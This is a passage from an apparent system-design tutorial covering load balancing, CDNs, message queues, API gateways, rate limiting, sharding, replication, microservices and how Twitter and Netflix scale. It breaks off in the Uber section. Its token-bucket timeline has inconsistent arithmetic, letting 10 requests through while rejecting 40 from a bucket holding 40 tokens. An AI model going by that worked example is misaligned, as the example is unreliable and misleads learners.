

---

### Health checks — how the load balancer knows a server is dead

Every few seconds, the load balancer pings each server: _"Are you alive?"_

```
Every 5 seconds:
Load Balancer → "GET /health" → Server A → "200 OK" ✅ Keep in rotation
Load Balancer → "GET /health" → Server B → "200 OK" ✅ Keep in rotation
Load Balancer → "GET /health" → Server C → ⏳ No response after 3s ❌

Load Balancer: "Server C looks dead. Stop sending it traffic."

All traffic now split between A and B.
Someone alerts the on-call engineer about Server C.
```

When Server C recovers, it gets added back automatically.

---

### Layer 4 vs Layer 7 Load Balancers

There are two types, and understanding the difference matters:

```
Layer 4 — Network Load Balancer:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Operates at TCP/UDP level.
Routes packets based only on: IP address and port number.
Does NOT look inside the request at all.

Like a post office that routes packages by city/zip code only.
Very fast. Can't make smart decisions about content.

Layer 7 — Application Load Balancer:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Operates at HTTP level.
Can look INSIDE the request: URL, headers, cookies, body.
Can make smart routing decisions:

  /api/*       → route to API servers
  /images/*    → route to image servers
  /websocket   → route to websocket servers
  Cookie: beta_user=true → route to staging servers

Like a smart receptionist who reads the letter and sends it to
the right department.
Slower than L4, but much smarter.
```

---

## 9. CDN — the world is big, servers are slow

### The speed of light problem

No matter how fast your servers are, there's a physical limit — light (and therefore data) travels at about 200,000 km/second through fibre optic cable.

```
Your server is in London.
A user in Sydney wants your homepage image (1MB).

Distance London → Sydney: ~16,800 km
Round trip: ~33,600 km
At speed of light in fibre: 33,600 / 200,000 = 0.168 seconds

Just the physical travel time = 168 milliseconds.
Before your server even processes anything.

With a CDN server IN Sydney:
Distance Sydney → Sydney CDN: ~5 km
Round trip: ~10 km
Travel time: 0.05ms

168ms → 0.05ms. That's 3,360x faster just from proximity.
```

---

### How a CDN works



---

### Push CDN vs Pull CDN

```
PULL CDN (most common):
━━━━━━━━━━━━━━━━━━━━━━━
CDN fetches content from your origin ON DEMAND when first requested.
You don't have to do anything special.
CDN "pulls" content lazily as users request it.

Workflow: User requests → CDN checks storage → miss → CDN fetches
          from origin → CDN stores it → CDN serves user.

Best for: Websites where you can't predict which content gets popular.

PUSH CDN:
━━━━━━━━━
YOU proactively upload content to the CDN before users ask for it.
CDN always has it ready. Zero origin requests.

Workflow: You deploy new content → you push it to CDN via API →
          CDN distributes to all edge locations → users hit CDN directly.

Best for: Scheduled video releases (Netflix new episodes), software
          updates — you know exactly when it goes live.
```

---

## 10. Message Queues — don't do things right now

### The real problem they solve

Without queues, your system is **synchronous** — the user has to wait for EVERYTHING to finish before getting a response. Tasks are chained together.

```
User clicks "Place Order":
──────────────────────────────────────────────────────────────────
1. Save order to DB             50ms    ← user waiting
2. Check inventory              30ms    ← still waiting
3. Charge credit card          200ms    ← still waiting
4. Send confirmation email     150ms    ← still waiting
5. Update inventory count       30ms    ← still waiting
6. Notify warehouse              40ms   ← still waiting
──────────────────────────────────────────────────────────────────
Total wait: 500ms of user staring at a spinner.

And if ANY step fails, the user sees an error.
```

With a queue, you only do the essential and fast parts synchronously. Everything else gets queued:

```
User clicks "Place Order":
──────────────────────────────────────────────────────────────────
1. Save order to DB             50ms    ← user waiting
2. Charge credit card          200ms    ← still waiting
3. Put these jobs on queue:      1ms    ← submit and forget
     ┌─ "send confirmation email"
     ├─ "update inventory"
     └─ "notify warehouse"
4. Return "Order confirmed!" ← user is happy in 251ms
──────────────────────────────────────────────────────────────────

Meanwhile, workers process the queue jobs at their own pace:
Email worker:     sends email       (might take 2 seconds, user doesn't care)
Inventory worker: updates count     (might take 1 second)
Warehouse worker: notifies system   (might take 500ms)
```

---

### The queue in detail



**The magic is decoupling:** Producers don't know or care who processes their jobs. Workers don't know or care who created the jobs. Each side can scale independently. If emails slow down, add more email workers. If image processing is fast, remove image workers.

---

### What happens when a worker fails mid-job?

This is where queues are genuinely clever. Most queues use **acknowledgement (ACK)**:

```
1. Worker picks up "send email" job
2. Worker starts processing it
3. Server crashes mid-way — email never sent
4. Queue notices: "I gave this job 30 seconds ago and got no ACK.
   Putting it back in the queue."
5. Another worker picks it up and completes it ✅

Without a queue:
  Job was being processed in memory → server crashes → job gone forever
  User never gets their email. No retry. Silent failure.
```

---

### Dead Letter Queue (DLQ) — where jobs go to die

Some jobs fail repeatedly no matter how many times you retry. Maybe the email address is invalid. Maybe the data is malformed. After N retries, they go to the DLQ.

```
Job fails → retry → fail → retry → fail → retry → fail
After 3 retries: → Dead Letter Queue

Operations team can inspect DLQ:
  "Why are these 47 jobs failing?"
  "Ah, the email service API changed format. Let's fix it and replay."
```

---

### Kafka vs RabbitMQ vs SQS

|                  | Kafka                                                                                                 | RabbitMQ                                                            | AWS SQS                             |
| ---------------- | ----------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------- | ----------------------------------- |
| **Mental model** | Append-only log. Messages are retained for days/weeks. Multiple consumers can read the same messages. | Traditional queue. Message is deleted once a consumer processes it. | Managed queue. Fully hosted by AWS. |
| **Speed**        | Millions of msg/sec                                                                                   | Hundreds of thousands/sec                                           | Moderate, but managed               |
| **Replay**       | ✅ Yes — rewind to any point                                                                          | ❌ No — gone once consumed                                          | ❌ No (standard queue)              |
| **Use for**      | Event streaming, audit logs, activity feeds                                                           | Task queues, async jobs                                             | AWS-native async processing         |
| **Analogy**      | A newspaper archive — every edition ever printed, you can go back and re-read any of them             | A sticky note — once acted on, you throw it away                    | A managed sticky note service       |

---

## 11. API Gateway — the front door

### Why you need one

Imagine a hospital. Every department — cardiology, neurology, pharmacy, radiology — is a separate service. Patients don't walk directly into each department. They go to **reception** first. Reception checks who they are, decides where to send them, and logs the visit.

The API Gateway is reception.

```
WITHOUT GATEWAY:                    WITH GATEWAY:

Mobile App → user-service:3001      Mobile App ──► API Gateway
Mobile App → order-service:3002                        │
Mobile App → payment-service:3003      Checks:         ├──► user-service
Mobile App → search-service:3004       - Auth?          ├──► order-service
                                       - Rate limit?     ├──► payment-service
Browser → user-service:3001            - Which service? ├──► search-service
Browser → order-service:3002           - Log the call   └──► ...
...

App needs to know every service's address.    App only knows one address.
Every service implements auth independently.  Auth is centralised.
Every service implements rate limiting.       Rate limiting is centralised.
```

---

### What the API Gateway does step by step



---

## 12. Rate Limiting — slowing down the greedy

### Why it matters

Without rate limiting, consider:

- A competitor scrapes your entire product database overnight
- A bot tries 10 million password combinations on your login endpoint
- A misbehaving client has an infinite loop hitting your API
- A DDoS attack floods you with traffic

Rate limiting prevents all of these.

---

### The Token Bucket — how it actually works

This is the most intuitive algorithm and the most widely used.

```
Imagine a bucket that:
  - Has a maximum capacity of 100 tokens
  - Fills up at a rate of 10 tokens per second
  - Each API request uses 1 token
  - If the bucket is empty, the request is rejected (429 error)

Timeline:
┌──────────────────────────────────────────────────────────────────┐
│ Second 0:  Bucket = 100 tokens (full)                            │
│ Second 1:  5 requests come in  → Bucket = 100 - 5 + 10 = 105... │
│            ... capped at 100   → Bucket = 100                    │
│ Second 2:  80 requests (burst) → Bucket = 100 - 80 + 10 = 30    │
│ Second 3:  80 requests again   → Bucket = 30 - 80 + 10 = -40    │
│            Bucket can't go negative. 40 requests get 429 ❌      │
│            10 go through ✅                                       │
│ Second 4:  Bucket refills: 10 new tokens. Bucket = 20            │
└──────────────────────────────────────────────────────────────────┘

Benefit of Token Bucket: allows SHORT bursts (up to bucket capacity)
but sustains the long-term average rate.
A legitimate user who does a sudden burst of activity isn't blocked
immediately — they use their saved-up tokens.
```

---

### The algorithms compared

```
Fixed Window:
━━━━━━━━━━━━
Allow 100 requests per minute.
Window resets every 60 seconds.

|---60s window---|---60s window---|
0              60              120

Problem: User sends 100 at second 59, then 100 at second 61.
That's 200 in 2 seconds. Both windows say "fine!" ❌

────────────────────────────────────────────────────────────────

Sliding Window:
━━━━━━━━━━━━━━━
Look back exactly 60 seconds from RIGHT NOW, not from a fixed reset.

At second 61, user wants request 101:
  Count requests from second 1 to 61: all 100 from window 1 gone ✅
  Correctly handled.

More accurate but needs more memory.

────────────────────────────────────────────────────────────────

Leaky Bucket:
━━━━━━━━━━━━━
Requests go IN at any rate.
Requests come OUT at a fixed, constant rate.

Like a bucket with a small hole in the bottom.
Water (requests) pours in fast. Drains at steady pace.
If you pour too fast, water overflows (requests dropped).

Guarantees a perfectly smooth output rate.
Bad for bursty-but-legitimate traffic.
```

---

## 13. Database Sharding — cutting the data pie

### When do you even need this?

Most apps never need sharding. You need it only when your data grows so large that a single database machine can't hold it or query it fast enough.

Signs you might need sharding:

- Your database table has billions of rows and queries take seconds
- A single DB server runs out of disk space
- Write throughput exceeds what one machine can handle (~many thousands/sec)

---

### What sharding actually is

You split your data across multiple database machines called **shards**. Each shard holds a subset of the total data.

```
WITHOUT SHARDING:                    WITH SHARDING:

One database                         Shard 1       Shard 2       Shard 3
storing all                          ┌─────────┐   ┌─────────┐   ┌─────────┐
1 billion users:                     │Users    │   │Users    │   │Users    │
┌─────────────┐                      │ID 1-333M│   │ID 333M- │   │ID 666M- │
│ ALL 1B rows │                      │         │   │666M     │   │1B       │
│ crushing    │                      └─────────┘   └─────────┘   └─────────┘
│ one machine │
└─────────────┘                      Each shard is a separate machine.
                                     Each holds ~333M rows.
```

---

### Shard key — the decision that haunts you

The shard key is the field you use to decide which shard a piece of data goes to. Choose wrong and you create "hot spots" — one shard getting way more traffic than others.



**Hot spot example — why shard key choice matters:**

```
BAD shard key: created_date (range-based: Jan-Apr → Shard 1, etc.)

January:  10,000 users signing up → all hit Shard 1
Feb-Apr:  10,000 more             → all still hit Shard 1
May-Aug:  10,000 more             → all hit Shard 2
Current month: ALL activity       → all hit whichever shard is current

Result: Current shard is on fire. All others are idle.
This is called a HOT SPOT. ❌

GOOD shard key: hash(user_id) % number_of_shards

Every user_id hashes to a pseudorandom shard.
Traffic is distributed evenly.
No hot spots. ✅
```

---

### The dark side of sharding — why to avoid it until you must

```
Problem 1: Cross-shard queries
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
"Find all users who bought product X"
→ Has to query ALL shards and merge results
→ Slow, complex, expensive

Problem 2: Cross-shard transactions
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
User A (Shard 1) transfers money to User B (Shard 3)
→ Can't do an ACID transaction across shards
→ Need complex distributed transaction protocols (nightmare)

Problem 3: Resharding
━━━━━━━━━━━━━━━━━━━━━
You have 3 shards. You add a 4th.
Now hash(user_id) % 4 ≠ hash(user_id) % 3
→ ALL existing data is on the wrong shard
→ You have to migrate everything while the app is live
→ Engineering hell

Problem 4: Joins don't work
━━━━━━━━━━━━━━━━━━━━━━━━━━━
SQL JOIN between two tables that live on different shards = not possible
You have to do it in application logic.
```

> **The rule:** Don't shard. Scale vertically first. Add read replicas. Optimise your queries. Only shard as a last resort.

---

## 14. Replication — keeping backups alive

### Sharding vs Replication — what's the difference?

```
Sharding:      Split data across machines (each holds different data)
               Goal: Handle more data / more writes

Replication:   Copy SAME data across machines
               Goal: Handle more reads / survive failures
```

---

### How Primary-Replica replication works



Why separate reads and writes?
Most apps have far more reads than writes (e.g. 90% reads, 10% writes). Replicas handle all the reading, freeing up the primary to focus purely on writes. This is a massive performance win.

---

### Synchronous vs Asynchronous Replication

```
Synchronous Replication:
━━━━━━━━━━━━━━━━━━━━━━━━
1. App writes to Primary
2. Primary writes to disk
3. Primary sends data to Replica
4. Replica writes to disk and confirms
5. Primary says "Done!" to App

     App ──► Primary ──► Replica ──► confirms
                  ◄──────────────────┘
              Only responds after replica confirms

✅ Zero data loss. Replica always up to date.
❌ Every write takes longer (waiting for replica ACK).
❌ If replica is slow or down, primary stalls.

Asynchronous Replication:
━━━━━━━━━━━━━━━━━━━━━━━━━
1. App writes to Primary
2. Primary writes to disk
3. Primary immediately says "Done!" to App
4. Primary sends data to Replica in background (best effort)

     App ──► Primary ──► confirms immediately
                  ──────────────────►
             Sends to replica later, asynchronously

✅ Fast writes. Primary not slowed by replica.
❌ Tiny window where replica is behind (called "replication lag").
❌ If Primary crashes before replicating, last few writes are lost.
```

---

### What happens when the Primary dies?

This is called **failover**. The system needs to promote one of the replicas to become the new primary.

```
Normal state:                         After Primary dies:
Primary ──► Replica 1                 ❌ Primary is dead
        ──► Replica 2                 Replica 1 nominated as new Primary
        ──► Replica 3                 Replica 1 ──► Replica 2
                                                ──► Replica 3

Automatic failover (e.g. in AWS RDS):
  - Primary stops responding
  - Health checks detect it within seconds
  - A replica is automatically promoted
  - DNS is updated to point to new Primary
  - Total downtime: 30-60 seconds

Manual failover:
  - Someone gets paged at 2am
  - They log in, assess, decide which replica to promote
  - They manually run the promotion commands
  - Total downtime: minutes to hours
```

---

## 15. Microservices vs Monolith — one big thing or many small things?

This is one of the most debated topics in software engineering, and the honest answer is: **both have their place**.

---

### The Monolith — start here

A monolith is one codebase, deployed as one unit, talking to one database.

```
┌─────────────────────────────────────────────────────────────────┐
│                     Monolith                                     │
│                                                                  │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐          │
│  │ User Module  │  │ Order Module │  │Search Module │          │
│  └──────┬───────┘  └──────┬───────┘  └──────┬───────┘          │
│         │                 │                  │                   │
│  ┌──────┴───────┐  ┌──────┴───────┐  ┌──────┴───────┐          │
│  │ Auth Module  │  │Payment Module│  │ Email Module │          │
│  └──────┬───────┘  └──────┬───────┘  └──────┬───────┘          │
│         └─────────────────┴──────────────────┘                  │
│                            │                                     │
│               ┌────────────┴────────────┐                       │
│               │      One Database       │                       │
│               └─────────────────────────┘                       │
└─────────────────────────────────────────────────────────────────┘
                      One deployment unit
                      One codebase
                      One repository
```

**It's actually great when you're small:**

- Easy to run locally — just one `npm start`
- Easy to understand — everything is in one place
- Easy to debug — no network calls between modules, just function calls
- Works fine at small to medium scale

**It falls apart when you grow:**

- 50 engineers all changing one codebase → constant merge conflicts
- One module's bug can crash the entire app
- "We need to scale the search feature" → you have to scale the _entire_ monolith
- Deploy is all or nothing — a small fix requires deploying everything

---

### Microservices — split by business domain

Each service is its own independent app: separate codebase, separate database, separate deployment, separate team.



**The benefits:**

- Each service deploys independently — fix a bug in payments without touching search
- Each service scales independently — payments getting slow? Scale only that
- Teams own their service fully — no stepping on each other
- Technology freedom — use the best tool for each job

**The cost:**

- Network calls between services add latency and failure risk
- A request might touch 5 services — debugging requires tracing across all 5
- Data consistency across services is hard (no single DB to ACID across)
- Much more infrastructure to manage (50 services = 50 CI/CD pipelines)

---

### The honest guide to choosing

```
┌─────────────────────────────────────────────────────────────────┐
│                                                                  │
│  Team size < 15 engineers?                                       │
│          │                                                       │
│  YES ────┤──► Start with monolith. 100%.                        │
│          │    Microservices will slow you down, not help you.    │
│          │                                                       │
│  Team 15-50?                                                     │
│          │                                                       │
│  YES ────┤──► Modular monolith.                                  │
│          │    Well-structured monolith with clear module          │
│          │    boundaries. When those boundaries hurt,            │
│          │    extract one service at a time.                     │
│          │                                                       │
│  Team 50+ and specific pain?                                     │
│          │                                                       │
│  YES ────┴──► Extract services for the parts that are:          │
│               - Scaling differently from the rest               │
│               - Deployed 10x more often than the rest           │
│               - Owned by a dedicated team                       │
│               - Genuinely independent                           │
└─────────────────────────────────────────────────────────────────┘
```

> Amazon famously runs hundreds of microservices. They also started as a monolith and grew into it over years. They didn't start with microservices on day one.

---

## 16. Real World Examples — how the big apps actually work

### How Twitter / X handles 500 million tweets per day

The core problem is the **fan-out problem**: When Elon Musk (200M followers) tweets, 200 million people's feeds potentially need updating.



**The tricky design decision — Push vs Pull:**

```
Push (Fan-out on write):
  When tweet is posted → immediately write to every follower's timeline cache
  ✅ Reading feed is instant (just read cache)
  ❌ Celebrity with 200M followers = 200M cache writes per tweet
  ❌ Slow to post if you have many followers

Pull (Fan-out on read):
  When tweet is posted → just save the tweet
  When user opens app → compute their feed on the fly
  ✅ Posting is instant
  ❌ Opening feed requires checking every person you follow → slow

Twitter's actual solution: HYBRID
  Regular users (< ~10K followers) → Push. Pre-compute their fans' timelines.
  Celebrities (> ~10K followers) → Pull. Too expensive to fan-out.
  When you open your feed: pre-computed timeline + fetch celebrity tweets live, merge.
```

---

### How Netflix serves video to 260 million subscribers

The hard part: video files are enormous (4K film = 100+ GB). You can't serve them from one server. You can't even serve them from one country.

```
What happens when you press Play on "Stranger Things":

1. Browser → API Gateway
   Authenticated? What plan are you on? What quality can you get?

2. API Gateway → Playback Service
   "Here is the manifest file: a list of video chunks at each quality"

3. Your Netflix app reads the manifest:
   "There are 3000 chunks. Each 2 seconds of video.
    Available in 4K, 1080p, 720p, 480p."

4. App checks your bandwidth: "You're getting 20 Mbps"
   Picks: 1080p quality. Requests first 10 chunks.

5. Chunks are fetched from CDN server CLOSEST to you (Open Connect)
   Netflix has their own CDN nodes installed in ISPs worldwide.
   Your ISP has Netflix content cached locally.

6. Every 30 seconds: app measures actual throughput
   "Bandwidth dropped to 5 Mbps"  → switches to 720p automatically
   "Bandwidth jumped to 50 Mbps"  → switches to 4K automatically

The result: no buffering, automatic quality adjustment.
```

```
Netflix encoding pipeline (before a show even goes live):
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Raw video file (one episode)
         │
         ▼
Encoding farm (thousands of servers running parallel)
  - 4K HDR (60 Mbps)
  - 4K SDR (20 Mbps)
  - 1080p (8 Mbps)
  - 720p  (4 Mbps)
  - 480p  (2 Mbps)
  - 360p  (1 Mbps)
  × multiple audio languages
  × multiple subtitle tracks
  × multiple codecs (H.264, H.265, AV1)
═══════════════════════════════════════
100+ encoded versions per episode!

All stored in S3 (object storage)
Then pushed to CDN edge nodes worldwide
```

---

### How Uber matches 5 million rides per day

The hard part: both the rider and driver are moving. Location data from millions of drivers pours in every 4 seconds.

